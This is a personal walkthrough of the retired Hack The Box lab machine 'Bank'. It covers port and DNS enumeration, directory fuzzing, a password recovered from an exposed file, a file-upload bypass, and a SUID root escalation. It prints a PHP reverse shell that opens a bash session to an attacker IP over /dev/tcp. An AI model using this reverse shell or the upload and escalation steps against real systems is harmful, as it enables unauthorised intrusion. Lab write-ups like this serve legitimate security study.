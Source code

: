 ```yaml
---
tags:
  - HTB
  - Retired
  - Linux
  - SUID
  - FileUpload
  - WebEnumeration
  - easy
creation date: 2017-06-16
Date Completed: 2024-09-28
CVEs: 
URL: https://app.hackthebox.com/machines/Bank
IP: 10.129.29.200
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)

```

### ffuf (Directories/Subdomain/Files)
nothing useful
### Nikto (Identify Technology)
nothing useful
### DNS
~~nothing useful~~ Try again loser

```
nmap -n --script "(default and *dns*) or fcrdns or dns-srv-enum or dns-random-txid or dns-random-srcport" <IP>
```

```
dnsrecon -d bank.htb -n 10.129.29.200
```

```
dig axfr bank.htb @10.129.29.200
```

![[Pasted image 20240928111522.png]]

## Web Enum... 
looks like cookie stealing or something

![[Pasted image 20240928110400.png]]

I'm also able to inject stuff in user-agent...

### Parameter fuzzing
nothing useful
```
ffuf -w /opt/tools/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://bank.htb/login.php&FUZZ=value -c
```

### gobuster

```
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 50
```

http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc

![[Pasted image 20240928113032.png]]
!##HTBB4nkP4ssw0rd!##


# Foothold

![[Pasted image 20240928113203.png]]


![[Pasted image 20240928114000.png]]

![[Pasted image 20240928114022.png]]

### testing ideas
changed test.txt to test.htb and success

![[Pasted image 20240928114500.png]]

rev-shell.htb
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.15.64/1337 0>&1'");
```

and I'm in

# Priv Esc

```
find / -perm -u=s -type f 2>/dev/null
```
/var/htb/bin/emergency
script elevates user to root 🐱‍💻 too easy

# Bullshit

So i was just supposed to guess at the domain name...............
Also, wtf is with having to use these rando wordlists?!?!?
# Maybe Useful Later
OpenSSH Command Execution
```
searchsploit -x 45001
```

